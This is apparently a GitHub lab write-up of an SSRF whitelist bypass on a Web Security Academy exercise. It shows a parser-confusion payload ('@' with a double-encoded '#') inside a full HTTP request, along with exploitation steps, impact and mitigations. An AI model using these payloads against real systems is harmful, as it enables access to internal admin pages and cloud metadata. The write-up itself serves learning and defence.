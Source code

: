 # 📘 Scenario 6: SSRF Whitelist Bypass using Special Characters (`@`, `%23`, etc.)

## 🔎 Vulnerability Description

In this scenario, the application has a whitelist mechanism that allows SSRF requests **only if the `stockApi` parameter contains a trusted hostname** such as:

```
 stock.weliketoshop.net 
```

However, the validation is performed **naively by checking if the string appears anywhere in the URL**, and **before URL parsing**. This opens the door for SSRF via **parser confusion**, using characters like `@` and `#` to trick the backend into sending requests to untrusted internal resources.

> **Vulnerability Type:** Insecure Input Validation (Whitelist Bypass)  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** High  

---

## 🧠 How This Works

Web developers often validate URLs using:

```python
if "stock.weliketoshop.net" in user_input:
    allow_request()
```
In `http://stock.weliketoshop.net@127.0.0.1/admin`, the real request target is `127.0.0.1`

The part before `@` is treated as credentials, not the destination

Similarly, `#` and `%23` can be used to truncate URLs or shift parsing
## 🔧 Target

**SSRF Endpoint:**
🔗 https://0a8b0050041680da800149e900a40036.web-security-academy.net/product/stock

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a8b0050041680da800149e900a40036.web-security-academy.net
Cookie: session=4fRO6noOd3S3f6XW8n7HAxbBYcJ6wa3J
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a8b0050041680da800149e900a40036.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8b0050041680da800149e900a40036.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://localhost%2523@stock.weliketoshop.net/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=3X7ki1Ye5xIUcDzoet2RF7OKactNGrQV; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074

```
---

## 🧪 Exploitation Steps

Try `stockApi=http://127.0.0.1/admin` → should be blocked by whitelist.

Use one of the bypass payloads above.

Monitor the response:

If internal data is returned, the bypass was successful.

Confirm that the backend followed the spoofed redirect due to parser confusion.

## 💥 Potential Impact

**Full whitelist bypass**: attacker can send SSRF requests anywhere.

Enables access to:

- Internal admin pages

- Cloud metadata APIs

- Redis, Memcached, or other exposed services

Can be combined with file inclusion or RCE vectors.

## ✅ Mitigation Suggestions
- Do **not** validate URLs using simple substring checks.

- Use secure URL parsing libraries and extract the final destination hostname.

- Normalize, decode, and canonicalize URLs before applying any allowlist logic.

- Block credentials in URLs (`user:pass@host`) unless explicitly allowed.

## 📸 Screenshot

![Exploitation Image Of Scenario 6](https://github.com/hovikhanh/ssrf-demo/images/Picture6.png "Exploitation Image Of Scenario 6")

## 🔗 References

[OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

[PayloadsAllTheThings – SSRF Bypass Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#bypass-techniques)

> 💡 Note: Whitelist-based protections are often vulnerable to evasion. Always resolve and compare the final destination IP after parsing.